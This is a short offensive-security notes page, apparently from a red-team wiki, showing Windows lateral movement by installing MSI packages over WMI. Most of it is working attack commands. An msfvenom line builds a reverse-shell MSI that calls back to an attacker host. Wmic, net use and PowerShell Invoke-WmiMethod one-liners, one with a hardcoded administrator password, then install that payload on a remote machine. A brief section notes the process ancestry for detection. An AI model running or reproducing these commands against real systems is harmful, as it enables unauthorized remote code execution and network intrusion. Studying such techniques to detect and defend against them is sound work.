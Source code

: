 ```yaml
---
description: WMI lateral movement with .msi packages
---
```


# WMI + MSI Lateral Movement

## Execution

Generating a payload in MSI \(Microsoft Installer Package\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

I had to revert to a filthy way of achieving the goal:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of be achieved using powershell cmdlets:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Get a prompt for credentials:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

